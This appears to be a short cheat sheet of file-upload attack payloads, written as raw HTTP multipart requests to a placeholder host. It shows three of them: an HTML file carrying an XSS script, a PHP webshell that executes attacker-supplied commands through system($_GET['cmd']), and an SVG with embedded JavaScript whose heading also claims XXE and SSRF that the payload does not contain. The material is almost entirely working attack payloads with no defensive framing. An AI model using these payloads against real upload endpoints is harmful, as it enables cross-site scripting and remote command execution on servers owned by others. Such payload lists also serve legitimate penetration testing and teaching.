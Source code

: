 #### HTML Extention Allowed - XSS
```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="file" filename="xss.html"
Content-Type: text/html

<script>alert(1)</script>
-----------------------------4829104394923874193918493216
```

#### PHP Extention Allowed - RCE
```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: text/php

<?php 
echo "shelled: ";
system($_GET['cmd']); 
?>
-----------------------------4829104394923874193918493216
```

#### SVG Extention Allowed - XXS / XXE / SSRF
```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="xss.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>
-----------------------------4829104394923874193918493216
```
